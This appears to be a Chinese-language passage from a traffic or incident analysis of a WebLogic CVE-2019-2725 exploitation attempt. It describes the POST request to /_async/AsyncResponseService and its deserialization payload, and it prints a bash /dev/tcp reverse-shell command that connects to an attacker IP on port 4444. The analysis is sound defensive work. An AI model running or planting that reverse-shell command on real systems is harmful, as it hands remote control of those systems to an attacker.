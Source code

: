 ![](./img/1tcp.png)

##### （1）**HTTP 请求分析**
- **请求方法**: POST
- **目标路径**: `/_async/AsyncResponseService`
  - 这是 WebLogic 的异步响应服务接口，是 CVE-2019-2725 漏洞的常见利用点。
- **请求头**:
  - `Content-Type: text/xml`: 表明请求体是 XML 格式的 SOAP 消息。
- **请求体**:图中已标出
 
  - **漏洞利用特征**:
    - `<work:WorkContext>` 标签中包含恶意的 Java 反序列化 Payload。
    - 使用 `java.lang.ProcessBuilder` 执行系统命令。
    - 命令内容为：
      ```bash
      bash -c '0<&60-;exec 60<>/dev/tcp/192.168.162.12/4444;sh <&60 >&60 2>&60'
      ```
      这是一个典型的反向 Shell 命令，尝试连接到攻击者的 IP `192.168.162.12` 的端口 `4444`。
